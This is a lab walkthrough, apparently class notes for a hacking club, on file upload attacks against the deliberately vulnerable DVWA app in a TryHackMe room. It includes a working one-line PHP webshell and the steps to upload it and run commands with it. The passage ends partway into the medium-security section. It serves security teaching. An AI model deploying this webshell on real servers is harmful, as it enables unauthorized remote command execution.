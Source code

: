 # HackerFrogs AfterSchool Network Hacking Session 8
## Session Topic: File Upload Attacks /w TryHackMe
# Challenge 1: TryHackMe DVWA Hash Room
## TryHackMe Link
https://tryhackme.com/room/dvwa
### YouTube Walkthrough Link
https://youtu.be/8mAh2ZGSvV0?t=1190
### Method of Solve
* Step 1: Click on the Task 1 header in the TryHackMe page, then click on the green "Start Machine" button
* Step 2: go to the top of the webpage, and click on the "Start AttackBox" button
* Step 3: wait 2 minutes for the AttackBox to finish loading
* Step 4: after the AttackBox finishes loading, at the bottom-middle of the TryHackMe webpage click on the "View in full screen" button, which looks like two arrows pointing away from each other
* Step 5: in the AttackBox desktop, click on the terminal shortcut button (at the top of the desktop) to open a terminal
* Step 6: in the AttackBox desktop, click on the orange Firefox (at the top of the desktop) to open a web browser
## Part 1: Logging in and setting up the DVWA app
Log into the DVWA app on the AttackBox web browser and configure its settings
* Step 1: In the TryHackMe webpage, note the IP address in the Target Machine Information header. We'll refering to that as the `<IP_address>`
* Step 2: In the AttackBox web browser, browse to the following URL `http://<IP_address>`
* Step 3: In the resulting login page, login to the app using the username `admin` and password `password`
* Step 4: Once logged in, click on the `DVWA Security` button located on the left-side menu (4th button from the bottom)
* Step 5: Then, click on the the drop-down menu located above the `PHPIDS` header. It's initially set to `impossible`, and set it to `low`, then click on the `Submit` button
* Step 6: Finally, in the left-side menu, click on the `File Upload` button to go to the low-level File Upload section of the site
## Part 2: Solving the low-level File Upload webpage
In this section, we'll be walking through how to perform a file upload attack on a webpage with arbitrary file upload vulnerability.
* Step 1: Prepare a malicious PHP file. In the AttackBox terminal, start the nano text editor with the following command:
```
nano webshell.php
```
* Step 2: In the text editor, put input the following PHP code:
```
<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>
```
* Step 3: Save the file by using the `ctrl+x` keyboard shortcut, then `y`, then the `enter` key
* Step 4: On the DVWA web app, click on the `Browse` button and select the `webshell.php` file, then click on `Open` (the file should be in the /root directory)
* Step 5: Confirm the upload by clicking on the `Upload` button
* Step 6: Navigate to the following endpoint in the app `/hackable/uploads/webshell.php`, as in http://<IP_address>/hackable/uploads/webshell.php
You should see a blank page. This is normal. We can run command through the URL's parameters
* Step 7: On the end of the webpage's URL, add this to the end: `?cmd=whoami`
If the webshell is working, you should see the output `www-data`
* Step 8: From here, we can run any commands we want on the uploaded webshell, substituting out `whoami` with any regular Linux command
## Part 3: Uploading a malicious file on the DVWA medium security File Upload page
* Step 1: In the DVWA left-side menu, click on the `DVWA Security` button
* Step 2: In the drop-down menu, change the `low` setting to `medium`, then click `Submit`
* Step 3: In the left-side menu, click on the `File Upload` button to go to the low-level File Upload section of the site
